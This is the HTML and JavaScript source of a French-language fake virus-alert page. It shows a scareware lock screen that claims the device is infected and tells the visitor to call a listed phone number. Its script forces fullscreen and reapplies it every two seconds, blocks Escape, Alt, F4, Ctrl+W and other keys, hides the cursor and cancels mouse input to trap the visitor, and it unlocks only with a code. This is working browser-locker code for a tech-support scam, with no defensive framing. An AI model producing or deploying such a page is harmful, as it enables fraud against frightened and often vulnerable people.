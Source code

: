 <!DOCTYPE html>
<html lang="fr">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Alerte Système</title>
    <style>
        * {
            margin: 0;
            padding: 0;
            box-sizing: border-box;
            user-select: none;
            cursor: none; /* Désactive totalement le pointeur */
        }
        html, body {
            width: 100vw;
            height: 100vh;
            background: black;
            color: white;
            font-family: 'Courier New', Courier, monospace;
            text-align: center;
            overflow: hidden;
            display: flex;
            justify-content: center;
            align-items: center;
        }
        .container {
            display: flex;
            flex-direction: column;
            justify-content: center;
            align-items: center;
            width: 100%;
            height: 100%;
            padding: 5%;
        }
        .message {
            font-size: 3vw; /* Taille de police réduite */
            font-weight: bold;
        }
        .alert-number {
            font-size: 2.5vw; /* Taille de police réduite */
            font-weight: bold;
            color: red;
        }
        #codeInput {
            margin-top: 20px;
            padding: 10px; /* Taille de police réduite */
            font-size: 2vw; /* Taille de police réduite */
            text-align: center;
            border: 2px solid white; /* Taille de bordure réduite */
            width: 50%;
            background: black;
            color: white;
            outline: none;
        }
        #error-message {
            color: red;
            font-size: 1.5vw; /* Taille de police réduite */
            margin-top: 10px;
            animation: shake 0.5s;
            animation-iteration-count: 1;
        }
        @keyframes shake {
            0% { transform: translateX(0); }
            25% { transform: translateX(-5px); }
            50% { transform: translateX(5px); }
            75% { transform: translateX(-5px); }
            100% { transform: translateX(0); }
        }
        .glitch {
            position: relative;
            color: white;
            font-size: 2vw; /* Taille de police réduite */
            animation: glitch 1s infinite;
        }
        @keyframes glitch {
            0% {
                text-shadow: 2px 2px red, -2px -2px blue;
            }
            25% {
                text-shadow: -2px 2px red, 2px -2px blue;
            }
            50% {
                text-shadow: 2px -2px red, -2px 2px blue;
            }
            75% {
                text-shadow: -2px -2px red, 2px 2px blue;
            }
            100% {
                text-shadow: 2px 2px red, -2px -2px blue;
            }
        }
    </style>
</head>
<body>
    <div class="container">
        <p class="message"> 🚨 ATTENTION ! 🚨
5 VIRUS DÉTECTÉS SUR VOTRE APPAREIL !
🛑 Votre système est compromis ! 🛑
🔴 Ne fermez PAS cette page ! 🔴
🔴 Ne redémarrez PAS votre appareil ! 🔴
📛 Votre appareil est exposé à une attaque sérieuse ! 📛
Toutes vos données personnelles (photos, mots de passe, comptes bancaires) risquent d’être volées à tout moment.   <br>Appelez immédiatement :</p>
        <p class="alert-number">+33 7 56 75 43 88</p>
        <p style="font-size: 2vw;">Entrez le code de déverrouillage :</p> <!-- Taille de police réduite -->
        <input type="password" id="codeInput" placeholder="Code secret">
        <p id="error-message" class="glitch"></p>
    </div>
    <audio id="keypress-sound">
        <source src="https://www.soundjay.com/button/beep-07.wav" type="audio/wav">
    </audio>
    <audio id="error-sound">
        <source src="https://www.soundjay.com/button/beep-10.wav" type="audio/wav">
    </audio>
    <script>
        function openFullscreen() {
            let elem = document.documentElement;
            if (elem.requestFullscreen) {
                elem.requestFullscreen();
            } else if (elem.mozRequestFullScreen) {
                elem.mozRequestFullScreen();
            } else if (elem.webkitRequestFullscreen) {
                elem.webkitRequestFullscreen();
            } else if (elem.msRequestFullscreen) {
                elem.msRequestFullscreen();
            }
        }
        openFullscreen();

        // Bloquer tous les raccourcis clavier
        document.addEventListener("keydown", function(event) {
            let blockedKeys = ["Escape", "Tab", "F11", "F4", "Alt", "Control", "Meta"];
            if (blockedKeys.includes(event.key) || (event.ctrlKey && event.key === "w")) {
                event.preventDefault();
                return false;
            }
        });

        // Désactiver totalement la touche Échap
        window.addEventListener("keydown", function(event) {
            if (event.key === "Escape") {
                event.preventDefault();
                return false;
            }
        });

        // Désactiver complètement la souris
        window.addEventListener("mousemove", function(event) {
            event.preventDefault();
        });
        window.addEventListener("mousedown", function(event) {
            event.preventDefault();
        });
        window.addEventListener("mouseup", function(event) {
            event.preventDefault();
        });
        window.addEventListener("contextmenu", function(event) {
            event.preventDefault();
        });
        window.addEventListener("wheel", function(event) {
            event.preventDefault();
        });

        // Empêcher la sortie du plein écran
        document.addEventListener("fullscreenchange", function() {
            if (!document.fullscreenElement) {
                openFullscreen();
            }
        });

        // Ajouter un son à chaque touche pressée
        let inputField = document.getElementById("codeInput");
        let errorMessage = document.getElementById("error-message");
        let sound = document.getElementById("keypress-sound");
        let errorSound = document.getElementById("error-sound");

        inputField.addEventListener("keydown", function(event) {
            if (!["Enter", "Backspace"].includes(event.key)) {
                sound.play();
            }
        });

        // Vérifier le code
        inputField.addEventListener("keyup", function(event) {
            if (event.key === "Enter") {
                if (this.value === "1234") {
                    document.body.innerHTML = "<h1 style='color: white; text-align: center; margin-top: 20%; font-size: 3vw;'>  Système restauré</h1>"; /* Taille de police réduite */
                } else {
                    errorMessage.innerText = "Code incorrect !";
                    errorMessage.classList.remove("glitch");
                    void errorMessage.offsetWidth; // Reset animation
                    errorMessage.classList.add("glitch");
                    errorSound.play();
                    this.value = "";
                }
            }
        });

        // Focus automatique sur le champ
        window.onload = function() {
            inputField.focus();
        };

        // Reforcer le plein écran toutes les 2 secondes
        setInterval(openFullscreen, 2000);
    </script>
</body>
</html>
 
